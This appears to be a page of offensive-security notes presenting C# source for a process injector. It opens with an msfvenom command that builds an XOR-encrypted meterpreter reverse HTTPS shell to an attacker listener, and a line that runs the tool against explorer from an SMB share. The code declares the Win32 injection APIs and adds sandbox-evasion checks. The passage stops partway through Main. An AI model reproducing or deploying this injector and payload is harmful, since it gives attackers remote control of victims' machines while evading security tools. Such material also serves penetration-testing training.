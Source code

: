 #### Classic Process Injector (.exe):

    //Uses VirtualAllocEx, WriteProcessMemory, CreateRemoteThread - works from 32bit or 64bit processes
    //msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a

    \\192.168.45.224\visualstudio\ConsoleApp1\ProcessInjector\bin\x64\Release\ProcessInjector.exe explorer

    ###CLASSIC INJECTOR###:
    using System;
    using System.Diagnostics;
    using System.Runtime.InteropServices;
    using System.IO;
    using System.Net;

    namespace ProcessInjector
    {
        public class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

            [DllImport("kernel32.dll")]
            static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

            [DllImport("kernel32.dll")]
            static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            [DllImport("kernel32.dll")]
            static extern void Sleep(uint dwMilliseconds);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

            [DllImport("kernel32.dll")]
            static extern IntPtr GetCurrentProcess();
            [DllImport("kernel32.dll", SetLastError = true)] static extern IntPtr FlsAlloc(IntPtr callback);

            public static void Main(string[] args)
            {
                // Check if we're in a sandbox by calling a rare-emulated API
                if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
                {
                    return;
                }

                //PE name check:
                //string exename = "BasicRunner";
                //if (Path.GetFileNameWithoutExtension(Environment.GetCommandLineArgs()[0]) != exename)
                //{
                //    Console.WriteLine(Path.GetFileNameWithoutExtension(Environment.GetCommandLineArgs()[0]));
                //    return;
                //}
